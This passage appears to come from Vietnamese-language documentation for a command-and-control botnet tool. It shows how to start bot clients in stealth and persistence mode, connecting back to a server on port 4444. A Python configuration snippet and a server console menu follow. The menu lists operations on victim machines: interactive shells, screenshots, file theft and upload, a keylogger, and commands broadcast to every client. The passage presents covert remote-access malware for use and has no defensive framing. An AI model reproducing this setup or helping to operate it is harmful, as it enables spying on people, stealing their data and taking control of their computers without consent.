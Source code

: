 ### 🤖 Khởi Động Client/Bot

#### Basic Client Connection
```powershell
# Connect to local server
python client.py

# Connect to remote server
python client.py --server 192.168.1.100 --port 4444
```

#### Stealth Mode Client
```powershell
# Run in stealth mode
python client.py --stealth --persist
```

#### Custom Client Configuration
```python
# custom_client.py
from client import ThreadSafeClient

client = ThreadSafeClient()
client.config.update({
    'server_host': '192.168.1.100',
    'server_port': 4444,
    'auto_reconnect': True,
    'stealth_mode': True,
    'persistence': True
})

client.start()
```

---

## 2. Giao Diện Server

### 🖥️ Console Interface

#### Main Console Commands
```
C2C Server Console v2.0
========================

🤖 CLIENTS MANAGEMENT:
  list                    - Show all connected clients
  select <id>            - Select client by ID  
  info <id>              - Show detailed client info
  disconnect <id>        - Disconnect specific client
  broadcast <cmd>        - Send command to all clients

🎯 OPERATIONS:
  shell <id>             - Interactive shell with client
  screenshot <id>        - Take screenshot
  download <id> <file>   - Download file from client
  upload <id> <file>     - Upload file to client
  keylog <id> start/stop - Control keylogger

📊 MONITORING:
  stats                  - Show server statistics
  activity               - Show recent activity
  logs                   - View server logs
  alerts                 - Check security alerts
```